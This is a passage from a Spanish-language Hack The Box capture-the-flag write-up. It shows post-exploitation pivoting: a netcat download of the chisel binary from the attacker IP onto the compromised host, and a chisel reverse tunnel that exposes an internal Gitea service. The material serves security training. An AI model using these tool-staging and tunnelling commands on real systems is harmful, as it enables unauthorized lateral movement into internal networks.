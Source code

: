 ```bash
/tmp # nc -w 5 10.10.14.97 4434 > chisel
```

Después de que tengamos de vuelta nuestra shell validamos integridad para saber si la data se corrompió en el viaje:

```bash
❱ md5sum chisel 
ca5184d43691ee8d8619377e600fa117  chisel
```

```bash
/tmp # md5sum chisel
ca5184d43691ee8d8619377e600fa117  chisel
```

(damos permisos de ejecución: `chmod +x chisel`)

* [Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) / **0xdf**.

Perfecto, para el reenvío de puertos necesitamos levantar primero el servidor (puerto) de nuestra máquina:

```bash
❱ ./chisel server -p 1111 --reverse
```

Con esto levantamos el puerto **1111** para que actúe como listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_chisel_server.png" style="width: 100%;"/>

Y ahora vamos a la máquina víctima (el cliente que se conecta al servidor):

```bash
/tmp # ./chisel client 10.10.14.97:1111 R:3001:10.10.11.164:3000
```

Nos conectamos al servidor que levantamos (**10.10.14.97:1111**), con esto estamos en la red, ahora simplemente le decimos que tome el contenido del puerto **3000** de la IP **10.10.11.164** y reenvíe su contenido al puerto **3001** de nuestra máquina (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_dockerSH_chisel_client.png" style="width: 100%;"/>

Recibimos en el listener:

```bash
... session#1: tun: proxy#R:3001=>10.10.11.164:3000: Listening
```

Por lo que deberíamos ver a **Gitea** en `http://localhost:3001`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471google_localhost3001_gitea.png" style="width: 100%;"/>

TAMOOOOO!

## Backups juguetones [📌](#gitea-backuphome) {#gitea-backuphome}

